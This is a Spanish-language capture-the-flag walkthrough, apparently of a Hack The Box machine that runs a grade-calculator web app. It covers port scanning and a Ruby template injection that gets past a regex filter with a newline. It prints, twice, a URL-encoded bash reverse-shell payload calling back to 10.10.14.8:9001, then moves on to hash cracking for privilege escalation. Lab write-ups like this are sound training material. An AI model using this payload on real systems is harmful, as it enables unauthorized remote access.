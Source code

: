 ### Ping
```python
ping -c 1 10.10.11.253
PING 10.10.11.253 (10.10.11.253) 56(84) bytes of data.
64 bytes from 10.10.11.253: icmp_seq=1 ttl=63 time=372 ms

--- 10.10.11.253 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 371.851/371.851/371.851/0.000 ms
```
### TTL 63= Linux
### nmpa
```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.08 seconds
```

### Enumeración del puerto 80

![[Pasted image 20240302204849.png]]
en esta parte tenemos una especie de calculadora podemos interactuar e intentar capturar la la petición 
![[Pasted image 20240303152607.png]]
### Burpsuite
interceptamos la petición con burp y al intentar ingresar una reverse shell lo detecta como código malicioso
![[Pasted image 20240303152515.png]]


### Info
tenemos informacion de come ejecutar un Execute Code
![[Pasted image 20240303203611.png]]
en este caso tenemos que agregar un salto de linea para que ruby pueda interpretar el comando %OA mas comando a inyectar

```python
	test%0A<%25%3d+system("bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.8/9001+0>%261'")+%25>
```
### regex ruby bypass

![[Pasted image 20240303203414.png]]
###### inyectamos este comando y usamos URL_ENCODE para poder baypassear 

de esta manera podemos tener acceso
![[Pasted image 20240303204746.png]]

test%0A<%25%3d+system("bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.8/9001+0>%261'")+%25>

### Escalada de eprivilegios
### sqlite3
tenemos un archivo db que podemos leer con sqlite3
![[Pasted image 20240304130045.png]]
###### conseguimos un archivo 
### hashcat
![[Pasted image 20240304130441.png]]

### hashcat

![[Pasted image 20240304142429.png]] 
###### tenemos la clave de susan

